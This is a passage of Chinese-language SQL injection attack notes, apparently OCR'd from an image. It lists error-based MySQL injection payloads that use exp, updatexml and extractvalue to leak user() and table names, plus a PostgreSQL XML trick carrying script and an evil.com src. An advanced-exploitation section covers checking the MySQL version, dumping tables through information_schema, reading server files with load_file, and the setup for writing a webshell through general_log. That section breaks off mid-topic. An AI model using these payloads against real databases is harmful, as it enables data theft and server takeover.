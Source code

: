 3. 使用数学运算函数在子查询中报错 exp(x)函数的作用： 取常数e的x次方，其中，e是自然对数的底。 ~x 是一个一元运算符，将x按位取补

   ```sql
   select exp(~(select*from(select user())a))
   # mysql> select exp(~(select*from(select user())a)); ERROR 1690 (22003): DOUBLE value is out of range in ‘exp(~((select ‘root@localhost’ from dual)))’ 
   ```

   这条查询会出错，是因为exp(x)的参数x过大，超过了数值范围，分解到子查询，就是： (select*from(select user())a) 得到字符串 root@localhost 表达式’root@localhost’被转换为0，按位取补之后得到一个非常的大数，它是MySQL中最大的无符号整数

4. 生僻函数

   MySQL/PostgreSQL 支持XML函数：Select UpdateXML(‘<script x=_></script> ’,’/script/@x/’,’src=//[evil.com](http://evil.com/)’);

   ```sql
   ?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1)) SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql ?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1))); and 1=(updatexml(1,concat(0x5c,(select user()),0x5c),1)) and extractvalue(1, concat(0x5c, (select user()),0x5c))
   ```

# 五、高级利用

## 思路

1. 判断 MySQL 版本

   MySQL的版本小于4.0时，是不支持union select联合查询的；当MySQL版本大于5.0时，有个默认数据库 information_schema，里面存放着所有数据库的信息(比如表名、列名、对应权限等)，通过这个数据库，我们就可以跨库查询，爆表爆列。

   5.0 以上时可以通过爆的方式获得用户名密码，5.0 以下或者 5.0 以上不能爆时(比如限制了 information_schema 数据库)，可以通过盲注获得用户名密码。

## mysql读文件

mysql 可以进行对文件进行读写

读取前提：用户权限足够高，尽量具有root权限、(secure_file_priv) 不为NULL。

    ```sql
    union select 1,2,load_file("")
    ```



## mysql写文件

mysql可以进行对文件进行读写

写入前提：权限足够、set global general_log = on

### mysql 写入 websell

magic_quotes_gpc 为 off
